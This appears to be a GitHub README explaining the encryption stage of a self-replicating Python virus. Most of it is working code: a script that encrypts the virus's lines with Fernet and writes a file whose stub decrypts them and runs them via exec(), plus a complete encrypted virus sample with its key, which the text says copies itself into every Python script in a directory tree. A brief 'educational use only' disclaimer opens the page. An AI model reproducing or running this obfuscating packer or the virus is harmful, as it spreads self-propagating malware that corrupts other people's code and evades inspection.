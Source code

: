 # Self Replicating Virus

## ** Disclaimer **

The information and code provided here, are inteded to be used for educational and research purposes only. Do not use the information for illegal activities, any actions and or activities related to the material contained within this repository is solely your responsibility. The author will not be held responsibile in the event of any criminal charges against any individual misusing the information provided here.

## TABLE OF CONTENTS

0. [Prerequisites](#prerequisites)
1. [What is it and how to use it](#what-is-it-and-how-to-use-it)
2. [A deeper dive](#a-deeper-dive)
3. [A glimpse into the encrypted virus](#a-glimpse-into-the-encrypted-virus)

## Prerequisites

In order to run `virus_encryption.py` you need to install the `cryptography` python dependency (https://cryptography.io/en/latest/installation.html). You can do that just by:

```py
pip install cryptography
```

## What is it and how to use it

This version of the virus employs encryption, in particular it encrypts the payload and add to the virus a decryption function which, once executed, will decrypt the payload (the virus) and execute the code.

In order to use this version run:

```
py virus_encryption
```

You will be prompted with the following:

```
Name of the file you want to encrypt:
```

and just type the name of the virus and press enter:

```
self_replicating_virus.py
```

Then you will be asked to type the name of the file you want to generate:

```
Name of the file with the encrypted virus:
```

And you can type whatever you want, for example:

```
self_replicating_virus_encrypted.py
```

And the encrypted virus will be generated.

You can run the newly generated file, with the same result of as the `no-encrpytion` version, namely the virus will write itself (the encrypted version) to each python script in the directory (recursively).

## A deeper dive

Let's analyze the `virus_encryption.py` file step by step.

```py
import cryptography
from cryptography.fernet import Fernet

payload = []
encode = []
secret_key = b''

```

Import the `cryptography` module and in particular the `Fernet` module. This will be used to encrypt and decrypt the payload. Also, two arrays are defined: the payload and the encode. The payload will contain the not-yet-encrypted lines of the virus, while the encode will contain the corresponding lines but encrypted. Also a secret key (as bytes) is needed and we store it in the global variable `secret_key`.

<hr/>

```py
def ask_for_filename():
  print("Name of the file you want to encrypt: ")
  file_name = input()
  return file_name
```

This function provides the user a prompt for the name of the virus file they want to encrypt.

<hr/>

```py
def read_payload(file_name):
  with open(file_name, 'r') as virus:
    for line in virus:
      payload.append(line)
```

The payload from the file is read and stored in the `payload` variable.

> Unlike the `no-encryption` version, the non-encrypted virus here does not contain the delimiting comments `### START VIRUS ###` and `### END VIRUS ###`, since these will be added by the encryption script (aka `virus_encryption.py`).

<hr/>

```py
def generate_key():
  global secret_key
  secret_key = Fernet.generate_key()
```

Here, the encryption key is generated by the `.generate_key()` of the `Fernet` module and stored in the global varaible.

<hr/>

```py
def encrypt_payload():
  fernet = Fernet(secret_key)
  for elem in payload:
    encode.append(fernet.encrypt(elem.encode()))
```

Encrypt the payload using the secret key above, and store the new encrypted lines in the `encode` global varaible.

<hr/>

```py
def ask_for_encrypted_filename():
  print("Name of the file with the encrypted virus: ")
  encypted_virus_filename = input()
  return encypted_virus_filename
```

Now it appears the function which prompts the user for the name of the new encrypted virus file.

<hr/>

```py
def write_virus(encrypted_virus_name):
  with open(encrypted_virus_name, "w") as virus:
    virus.write("##### START VIRUS #####\n")
    virus.write('\n##### ENCRYPT #####\n')
    virus.write("encrypted_payload = [b'" + (b"',b'".join(encode)).decode() + "']")
    virus.write("\n##### END ENCRYPT #####\n")
    decryption = """
from cryptography.fernet import Fernet

decrypted_payload = []

def decrypt_payload():
  fernet = Fernet(b'""" + secret_key.decode() + """')
  for elem in encrypted_payload:
    decrypted_payload.append((fernet.decrypt(elem)).decode())

decrypt_payload()
exec("".join(decrypted_payload))
"""
    virus.write(decryption)
    virus.write("\n###### END VIRUS ######\n")
```

And finally the real action. This method will write in the file - with name chosen by the user - the encrypted payload as an array of encrypted lines called `encrypted_payload` (this shall be more clear once the encrypted virus will be presented), followed by the decryption fnction which will run through the encrypted lines stored in `encrypted_payload`, decrypt them and then execute the decrypted code. Let's see how the decryption method is actually built:

```py
from cryptography.fernet import Fernet

decrypted_payload = []

def decrypt_payload():
  fernet = Fernet(b'""" + secret_key.decode() + """')
  for elem in encrypted_payload:
    decrypted_payload.append((fernet.decrypt(elem)).decode())

decrypt_payload()
exec("".join(decrypted_payload))
```

First we need the `Fernet` module to decrypt the payload. Then we define the variable which will store the decrypted payload and the function which will decrypt the payload. Now, the `fernet` object is created using the global variable `secret_key` and then, for each line in `encrypted_payload`, the loop decrypts it and appends it to the `decrypted_payload` array. Then we run this function and finally executing the decrypted code stored in `decrypted_payload`).

## A glimpse into the encrypted virus

The generated encrypted virus should look like the following:

```py
##### START VIRUS #####

##### ENCRYPT #####
encrypted_payload = [b'gAAAAABf2NGYStgP3J7gBTIv6kDOUtTNyk2bIG-aw3b0pL0po00h_eBCVpWrahnvfVvAV_Z31rCiHDghdVjPeXF8bYL8VzdxxQ==',b'gAAAAABf2NGYuoF3PotW4XR7EXq3iM_s4per73h7-43IBN-bfyFXk3v_PvBPrOwPcnzXSW6rLbqNv7sek4YcPl0rWVEYTg6tzJoZtlQ-ix0YsPabMxrowwg=',b'gAAAAABf2NGYaRbEuPqn_28v6JI7cWMOmmxlRg7Er4WNXARmvQoFLinMg-x673NYxxNnaykid64-7b2dgdq_TZ8mpEHIqmIZzk_1PNd1ge70rx_idit4COU_tChx0Tj3pWJt_i3e7bc6',b'gAAAAABf2NGYPy8QNgL3Uz11UboBpsEDeVJyqt9PADSIpF82WJrZGZ0rMxdTkV0O_XCfJZ6uq2q13M-fJMphbkOLAyVFycFFzg==',b'gAAAAABf2NGYnzAQm7kIyR_hq7RHKTpMHx5uU36w1fepc-3bICh5cA6s0zsYdDJkVEU-_7FptfglxroisebWeNo_XgpJ4CaBWdYarRYp96_asxARO5nXf5A=',b'gAAAAABf2NGYiSgULH-MwVZLMw3XJewNV-8rfZeanns6OTKXUJEDwJ-LIq6JFQVrCA8N3IgCfLTUAXpPfqOTgP7Q3KA69qb9DA==',b'gAAAAABf2NGYl1KJJAayjigxiPSQ3THo_Q7W9wWGmopHWSPIBtexreMRyftvqGP9jWioB-A4vXp_5yKo4tblx5LdYltWNgim3Q==',b'gAAAAABf2NGYaS5NzgIa0hRwmxvLTxbdEM9i_1MsKi7P_KCWG8BLsGCOUl35sR9fBb1SVf7ZA0xplM_qTLL2bo18PkWk_6IwyxHsErDep-u0_Q0T-l3NNtnAEgUAB3k0iPGhEF7fWFes',b'gAAAAABf2NGYLffLRfK6bBDyn6wtrkQOH7t_7IOl3-VPPrqWreUQLhbZbc6wCOafNG_tQ5EF8WRXkq2MA0pTywQc098fCxfYPK65d453hyF1VHJmZnt7k7__xmkZhXJkOl8PB2YIrwFO',b'gAAAAABf2NGYURgrbCFtR_3PvBdxCmNFNbLKxSm7ul1-hL0bHig3qEWi65oWKmunz4LwaafHgdZe7eksY8QN7Y6Cwfv6XoTTXKGVIvINck80UrlsWLKhEYo=',b'gAAAAABf2NGYdjnCYbqrAYzdA2YJjPE4b0G7002Q89UEDhLcwnmMtOgjkMCufe3bHPhccDTaiDFwQrUeO9kVf9gaEtsI-octNNSUSBdvONty5adEfR3zg8M=',b'gAAAAABf2NGYlvJPljsaeO4fFuSkI7V8TE5j7XLJrAHZlzFbTGeVk3V2c2wwh-AeCaevD9eUchRBvbmRbazifqpOkcGGbk0DSdK8hQ2FPO5btSca0711CbZmDc9WZysRFDlNr7eTP4XU_qcTW-7tnaPbMRKAxp8STw==',b'gAAAAABf2NGYdBvK8JvDND11YOikZKR1Xg9SWfftdjOBSeO5AP7vDhWJEW5GVKHJpXUIVPXe4BQ_63Ag-1NeEckZaC1bE4w6yw==',b'gAAAAABf2NGYBgl9mrc1U0hDefXg3d4IZL2DYMOrMafuwdoBUB7A5Ysd869QHPySztJdAYHxWnBHWlhUiXIN6O9gUf4KkpsSjQ==',b'gAAAAABf2NGYqpGt8m-kZL_n8GGUOSII8Tm2S5XmUnOHOibOihvXIm2ockyo18ynujIGjySEobh5PjKMMLQbAUI6yfCoIA8cGcVKOAJYcowIHk5va9V3aQY=',b'gAAAAABf2NGYJEOG4wAfqFpRvkK38ubmWw2B86JRmZcUaqTNHCGAmRLJhGfmHjbGoHpXHAb4uWwry6c5aVjzg-yDCVqi8pWxnaviU-gdXLZcCnXl5WY5cpU=',b'gAAAAABf2NGYMnHDwHNMadfMhejqWElah1RhER-lZSgzwQtpcwWvx98hPS3W0KnENF7IsB-45GZEgQz73wlvuZV29Fv4Maa3TjZmfYZAqjonslo6oApG41DpqpzQpurOqN-hYy0zcBp4',b'gAAAAABf2NGY6x1aU9K0qaUCfE9sIuPJ-Ed3vLgPtO_NgE52kGafXZBNmZa_x1cDwaRjrJAEHQTBcQLtahDBKsRWKEUljrtZKA==',b'gAAAAABf2NGYIMefI0RIxED9669FttTKc7hSKll-0f12JU1_7PNe5fArAakqW8a8PPrvRNMRCXAI3PN1iZxvqNk8s80DPO96dA==',b'gAAAAABf2NGYvY3Ne2iUvWzMVfEGmITyRq0EDeA2_w5DVTHrUdXNfPCNv2SBCtvMNDz8Dra6gzC6v4C1g8wpE4G4zdDAh3Cw4nXcynyJY_wfFb5-PoL-YWY=',b'gAAAAABf2NGYLCBDZPphLeITrbYPnpIU04S96IoUtwLzdOMQKozqKlT7yW2VFoEe7qGOel5AntcMoS2G9-TBpREAP2WfntTBJbpPJtBJGZicrnYscjTTucI=',b'gAAAAABf2NGYE7ylGSbs9dg4eHMi6ZIElyuzxV6DXWB_Z8SNPKZnZL35p1xx3vzjjaGNOTnE9xQAf49OOEkCJPxNCjlHqnBU2nJafbaUMbllvtbEb-lw1pc=',b'gAAAAABf2NGY8L5sg1rMf2yLvXaVdtJ0DDgQS6nu_8AGVdtUnoKJMVBQBxRrgzA9TdMxznz_zZgsIULNmQauMXnRWxt9Num60GanpApdnc6mu78GW6RZf-fF9EKiW5mmFRYZJrcgj-1I',b'gAAAAABf2NGYXw2f7r6_in-3CGu69sNFkXhaqqG6XtNi6Ykt43OHXs-HC9GoMwfXHkQwNjLkWQUTdhFKPY1-X2h23CVeoKAy2I1Go0E9HTkmq2uVQswYQXM=',b'gAAAAABf2NGYcnp8KOYeJY3tWV-8KS_JQFRByb5N_ujMCs0jSA6EVIQCBoPwOrslNGG3I_51R-bi7qoa6iwWTFaSvmPlA3U4chC2yaDFPWZpdbDRLIFFe0M=',b'gAAAAABf2NGYDN6OOQfTkVt5SmdFJThzkkXMqDm-43YFdeEhmY6y7cByWBJ3puqRdj1k1d-xc4dXhAyEhg3-z4-z1OfnYPc_Tw==',b'gAAAAABf2NGYfpOphmJXO9UFe6TMVqf25nRiRZUiPgmnY_emogU-orNwPPSqd8_qr0XiwV08XR2lhXfyvYvggw3DyYIW__ZSWA==',b'gAAAAABf2NGYmPDXo17u7QIjTudoB5w93aS-m2NyosDkNOK8k6toE-1RZEADprQKO1qxFMQo60YA6kpvlrYRJrBXQc5-WxstNsMuycodAZvA3S8zDNg3SfM=',b'gAAAAABf2NGY0rdFzGg2RbSP06TwqX5NcSMFAurEDgioJxE8wv52gtEXEMut0wbDhHUb9XmY1If3-RoIP1Ki992TMddRV83wpvGBsQ88LJEwTJGWJpiuYU-frLBIHP3PA7kA9igzm6JH8y3eqYtI6FdU7-pjolb77zGVpaMrqFesGsb1Jvtii5g=',b'gAAAAABf2NGYK43_aZgwDSc1KhxqlMOEOBT3Qv5no0QgtOewO15GuEag_BDjEPWLIT7Bpxvr6d-qQ-d7PPGyriA7DbcG7HWpVnMyZYBN2i5ELc7494S9XX0=',b'gAAAAABf2NGYIHsXdb7eB5gszM2QFVE2XlM60OAlHyEfVgYvBkPWKxoyt02LsRrgFlUPs7r0_2PXonTHvi2c7F76ORNJ3jBkNq6oGWq579mGDH9ZMQ41Dfg=',b'gAAAAABf2NGYPdYIWK2i5EM0VEBL07pS5JAhw-nVd2EfkXWGfsImKSDmetWEXku5yKqFG0JW3b64FunDaJga8Lm7FUhiCtx9mqZOHB6b2swTRS2vVJY0Wtw=',b'gAAAAABf2NGYmkYrOgtdAIXyZOfaWt_joJgr1a-qPLm4JIuYJTB5wsyXb6Wh9TtuNI5jb1-YivIHTkUVKVg1UwSx1iy_S-cIl2goyC4C7vGshqgpKrxBt1I=',b'gAAAAABf2NGYiGv6El5iRofFdC0_MDlb9cc-01ZyorX2NI-PdleNetf9PkqVwLE9BnC_Z3pfXzalcasK6oeKMHLDzr4pLHUYMIKhHTBMfv45jRvE9SA9wnwGAGJr-fh5eaCTPSULr5cIxiu2au6NXqLdS9qXpMQ5kQ==',b'gAAAAABf2NGYXylQP4qCD8WlpfciLeYUEGLmL9dYnbUF15uyTi1_J8R_b4zFG6xIGb65NtFQZFJH1_67z_I2IX4b2Bmj4u95DAjYb8DFNmdBzpGlGK8mrOA=',b'gAAAAABf2NGYDWjoLFrde0zFR7Zh3b4L98loqJKWfIFfElAriUzMEaW1yBzkSo6GEwVvkt4rTaRKRyIxOBSzcz7AU0YDtr_9iTAUOTAkwgxjDUyTI8tp8UKmWVhkCvkQiJ_9QOcuYgBs',b'gAAAAABf2NGYVG3-YeoUJzG0_Vy_ZSVYo_pUOvvTNsQktme_EYptNeMgg7qhy30uhckE_RNSClCmv4NY6c3JJDnmieIiteu0otSbUAIU8WFYxwiphX0yB-lzOp1FejNCEBBcrasMzAom0dogQfX6BV-yZlc_rE7kcA==',b'gAAAAABf2NGYirABqI8E_btzZn6XEkrR3qjWZnbV7ug5atCojJ3TLx43acg68dFJkrr98C9y9hI16ywC6ieh4xDaNpE7pOcOOpCuxJdPHsJBYPazALWNEzs=',b'gAAAAABf2NGYN3imFMl61knY3TtqA3cBiqRSnb1hMXf3dmb0w5CA38TivS11SlxpzpnWjE1MaDSBoL4UM-yEfQNJ4LN7669AFw==',b'gAAAAABf2NGYBiuGZDhepTN1wkcjiPco8PKSqYG3Lym6eZg90J7CQmedVh87fPSv1ndbJ7FO6_wszl4uhXTxdfXTieQoep2rkQ==',b'gAAAAABf2NGY6IUc39EtW0r7ikFW88BMJVw2zMno-aicR3LRsXAubxG4oopwNL0zfo1ImUadGicmXpPg9LZMx_OgaEq70xHM-jEw0KYbJ7Il7pGY7XyQtjY=',b'gAAAAABf2NGYx8eHXTVPRukC-i1dbdlpj6Y6XJaVC8U4I0LHcr2OAbIs7cXFyoLeTn89-bMXdWZQpfyqOpmDzA8IUcaHZIVVg6ZbcH2Zc2idm-F53JSS8ho=',b'gAAAAABf2NGYw1M7OZkiofVePZkmpa-x3kNZVlb1h4uRrF36wpGIeM3jsvtiQU9ruOCxaAtctnLm1L-FKaZqroQ_uXqksFvLhiz3AV7Bpf2eAyADG8L8qWs=',b'gAAAAABf2NGYjxRxadirPJC4tTQ5Y1rJS8nn27K6nI4dVA-LyvC4dEWuOg2K1KFWRgsDRTlTJTU-OzdNP1DqJV2bLOG10Mj-gXmBbnVCEdANr5sKAbVKCNs=',b'gAAAAABf2NGYGGYAF2GsteWbTGsCR5GRmDUvJd_qStMscLnkM_Vzwc3A7TSdUEyMp-wA5sHe3sAGhtqS8aNuipbppIhLhLXmTA==',b'gAAAAABf2NGY9obqR5Qv_ciMzNwetg_dQFPc4wGITF6JSfUwNEQ2iAiyvFIgJn68-z-kCL_HLOeAfnxbUVNH14LX2WOZRymnn6oQbE4WWUqI2FSGOaCyFIU=',b'gAAAAABf2NGYDJGR4FIZ2Hy3qaMWK_Uj0jj7Gzh2KXttcqCQm8wflUTeKWDXob2E4FxmyD-sGvbl63d1zJWE92ssmNvlRN8jIeDl9dw1aafOndmZ6vtdkvo=',b'gAAAAABf2NGY1_zJBeASmFLaSkaRuToTJAFVxgFFKHsJN3la7nVhDFyPtazBM33CSau5GTT_XXiQ90LN9yiFTTA8ZxV4V2dtoN0GVb_Tc2SD-6ALwyXSlqs=',b'gAAAAABf2NGYxEN9Y_Lu5tV-LaS1UL39p5kxAGC_kinY8RS7zCX8wD_ElxORL3wYMUUB1N1kyezXh2GHRwK1HihWmDQwVyTlZA==',b'gAAAAABf2NGYiAFW2-XdfYP8dp38Or72UT8a7W0t2BlZn0hia0DSKvslWY5j7QM-mcMbdTMiTd3n7ZxrC9MjGj9WXWHLekEZWwnRLUxxsidEH_Jw7TyduOM=',b'gAAAAABf2NGYiIPWmoRd937mAK3Rh1GHB-F5Qv11MmSF_dEtwU8EleYniI_fvID0BKiydT3jdK4LtNAiH4SBSz5G-zT4Z_2QNuBVPE-zafKcYY_Q6qLOcTs=',b'gAAAAABf2NGY8JdqRBH3OwXg6vK4L0ZPSvElA9A651xNPrOLxQ7WYnn0rt7KeMnmsTc1ZLOijaIi3FwSm_AWjdQ3-1XtDcefrA==',b'gAAAAABf2NGYWeFWPd961PMMC0T9FKa-5-AcBMvaspM5nsMVSG8sSeeEqHChbkoZj8pqPDQqtW6xNhsc2F-7Qe6dR4WvtXIT7w==',b'gAAAAABf2NGYBqnGf-YUWZIp5RTHl520oSyVOLxzBBczhpokald9yfSCuaT8R0xtv0EBGqWiUM1ZlfD_2PC9RiTFYDs3fSzytLmfq9docAB95ASt6iuYZss=',b'gAAAAABf2NGY3gP6RRkfTQyX4wCN8683al7xe74weuIzwYkFS1Qr5iV4nZj_PWpukcLarwFIjBq_xUIlCsxgv5XWAICxSp7YOixcKemAaIPFjtYrFWAUGY8=',b'gAAAAABf2NGYmZbMweMHfA4RS_GIbP_vtWZbrwnbeQuBt6BmqpzlR4MF8HZwpP0ZCRO6sS4v9rNAnuxtwWMQZrvVoD4uMaXfJA==',b'gAAAAABf2NGYwQwPxc1Tti2FWa3we-ZCaFDbq1_6_DKCzIhnAw__p9ZreJn7H7TKrTjy_eP5bO2kRWopLV2GaF-VfRPeWZPPhJsB6DYjSSQ_3Kny4KcNukY=',b'gAAAAABf2NGYN1akoPovYlprNiNUefA3Kw1uJQCLB0xlJJU1jXPmlHJAI8hIEVhCYdxRfH9q_GtZc50i6zh5PZrVP8KQM8xxsM4rtr9CCkH3RJyGxlmEZt9ZpocI8gch2OjzbBJn1Mgn',b'gAAAAABf2NGYEwANJ4-YehUGPaOToO_VAzmknnjSi4fnsvorq2u3B9GPCM1ESTQIVzUPEt-UWOcYd8odAve1RGha0LwoZOTpcd0-aTqGIUQhEr01sx63s2g=',b'gAAAAABf2NGYnBoflT7dvM2HgR-_WMJ8CMr4g8hu9MLgJU-ioUJneMoKlMs8iCgOAB_iwzHA16Bd5uV6vEsOISonK5c933Dmrw==']
##### END ENCRYPT #####

from cryptography.fernet import Fernet

decrypted_payload = []

def decrypt_payload():
  fernet = Fernet(b'ZBdrP1znue2godNiopGdPvEY7ypRsFSE3Y77qMcUhpc=')
  for elem in encrypted_payload:
    decrypted_payload.append((fernet.decrypt(elem)).decode())

decrypt_payload()
exec("".join(decrypted_payload))

###### END VIRUS ######
```

As we can see, the `encrypted_payload` contains each lines of the original virus but encrypted. Also, the encrypted part is delimited by `### START ENCRYPT ###` and `### END ENCRYPT ###`. These are completely superfluous at this stage, but for the next versions, these delimiters will be necessary.
